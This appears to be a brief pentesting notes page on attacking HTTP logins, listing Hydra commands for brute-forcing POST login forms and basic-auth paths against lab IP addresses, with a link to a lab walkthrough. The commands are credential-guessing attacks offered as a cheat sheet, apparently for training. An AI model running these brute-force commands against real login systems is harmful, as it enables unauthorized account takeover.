


# HTTP Login

## Hydra

- `hydra -L <userlist> -P <passlist> <target> http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials"`
- `hydra -L usernames -P passwords 192.208.137.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"`

  
- `hydra -U http-post-form` : for man help

  

## Basic auth bypass

- `hydra -L usernames -P password_file.txt -s port -f ip_address request_method /path`
- `hydra -L usernames -P passwords -f 192.168.1.4 http-get /webdav`

## References

- https://assets.ine.com/labs/ad-manuals/walkthrough-1896.pdf : basic-auth burpsuite
